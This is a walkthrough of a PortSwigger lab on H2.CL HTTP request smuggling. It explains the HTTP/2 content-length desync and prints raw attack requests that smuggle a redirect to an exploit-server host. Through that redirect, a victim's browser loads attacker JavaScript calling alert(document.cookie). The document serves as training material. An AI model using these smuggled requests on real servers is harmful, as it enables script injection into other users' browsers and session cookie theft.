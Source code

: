 # H2.CL request smuggling | Feb 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling), you'll learn: H2.CL request smuggling! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214172445.png)

**View source page:**
```html
[...]
<script type="text/javascript" src="/resources/js/analyticsFetcher.js"></script>
[...]
```

**As you can see, it loaded a JavaScript file from `/resources/js/analyticsFetcher.js`:**
```js
setTimeout(() => {
    const script = document.createElement('script');
    document.body.appendChild(script);
    uid = Math.random().toString(10).substr(2, 10);
    script.src = '/resources/js/analytics.js?uid=' + uid;
}, 5000);
```

What this JavaScript will do is:

- After 5 seconds, create a new `<script>` element
- Append it to the HTML body
- Generate a pseudo-random user ID
- Finally, **set the `<script>` element's `src` attribute to `/resources/js/analytics.js`, and the GET parameter: generated user ID**

**Hmm... What's that `/resources/js/analytics.js` doing?**
```js
function randomString(length, chars) {
    var result = '';
    for (var i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
}
var id = randomString(16, '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');
fetch('/analytics?id=' + id)
```

This JavaScript will:

- Generate a pseudo-random ID
- Send a GET request to `/analytics` with parameter `id`, and value pseudo-random ID

Armed with above information, we can ***try to exploit response queue poisoning, which will then import our evil JavaScript!***

In HTTP/2 (HTTP version 2), requests don't have to specify their length explicitly in a header. During downgrading, this means front-end servers often add an HTTP/1 `Content-Length` header, deriving its value using [HTTP/2's built-in length mechanism](https://portswigger.net/web-security/request-smuggling/advanced#http-2-message-length). Interestingly, HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.

The spec dictates that any `content-length` header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the `Content-Length` header derived from our injected one, resulting in a desync.

Therefore, we can try to smuggle HTTP request via **HTTP/2 downgrading**:

> Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, we need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174241.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174333.png)

Then, change the request method to POST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174309.png)

We assume the web application's front-end is using HTTP/2, and the back-end is using CL (`Content-Length` header).

- H2.CL:

**Now, we can send the folllowing attack request:**
```http
POST / HTTP/2
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Length: 25

smuggled=yes
```

> Note: To send that request, you must disable "Update Content-Length" option in Burp Suite's Repeater
>  
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214175032.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214175050.png)

When we send the request twice, it returns a 404 status! Which means **we can confirm that the web application is vulnerable to H2.CL HTTP request smuggling!**

But, how can we escalate that vulnerability to much more critical?

**After poking around, I found something interesting:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180409.png)

When we go to `/resources/js`, it'll redirect us to `/resources/js/`.

Hmm... I wonder if can we control the host...

**Let's try to change the `Host` header to anything:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180505.png)

Oh!! We can indeed control the host!

That being said, **What if we import an evil JavaScript from the exploit server?**

**To do so, let's head over to the exploit server, and host the payload with path `/resources/js`:**
```js
alert(document.cookie);
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180720.png)

**Then, send the attack request again but with the exploit server's `Host`:**
```http
POST / HTTP/2
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources/js HTTP/1.1
Host: exploit-0afa0058031b1d5bc0ff0c4301580060.exploit-server.net
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180851.png)

Exploit server access log:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180910.png)

As you can see, our victim successfully imported our evil JavaScript!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214182628.png)

What the victim will see:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214181416.png)

> Note: You need to poison the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, it will fetch your payload from the exploit server but not execute it. You may need to repeat the attack several times before you get the timing right.
>  
> You could try to keep spamming the attack request.

# What we've learned:

1. H2.CL request smuggling